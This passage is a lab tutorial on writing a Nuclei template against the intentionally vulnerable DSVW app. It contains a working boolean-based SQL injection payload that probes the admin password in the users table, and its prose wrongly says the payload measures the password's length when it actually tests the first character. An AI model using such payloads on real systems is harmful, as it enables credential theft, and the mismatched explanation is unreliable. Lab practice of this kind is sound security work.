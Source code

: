 We are going to be using [this](https://github.com/appsecco/vulnerable-apps/tree/master/dsvw) server with a couple vulnerabilities to test and practice our new acquired knowledge about **Nuclei templates**.

To run the docker: `docker run -p 1234:8000 -it appsecco/dsvw`

Once it has started, you can access it and see a couple of vulnerabilities to test and create templates for. The first one is the following example.

In this first example there is a **boolean SQLI** which can be detected as the table fills or not, so because that the matcher selected to detect this vulnerability is a **dsl** looking at the length of the response body. 

---

### Create a Nuclei Template to Detect the Boolean SQLI

To find the length of the password, we will use a payload (ranging from 1 to 9) hardcoded in the template, although a file could also be used for more dynamic payloads.

Create a file called something like `BSQLI-dsvw.yaml` with the following content:

```yaml
id: boolean-sqli-password-extract
info:
  name: SQLite Boolean-Based SQL Injection - Password Extraction
  author: yourName
  severity: critical
  tags: ["sqli","sqlite","boolean-based"]

http:
  - method: GET
    path:
      - "{{BaseURL}}?id=2%20AND%20SUBSTR((SELECT%20password%20FROM%20users%20WHERE%20name%3D%27admin%27)%2C1%2C1)%3D%27{{length}}%27"

    payloads:
      length:
        - 1
        - 2
        - 3
        - 4
        - 5
        - 6
        - 7
        - 8
        - 9
    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - "len(body)>1350 && status_code==200"

```

---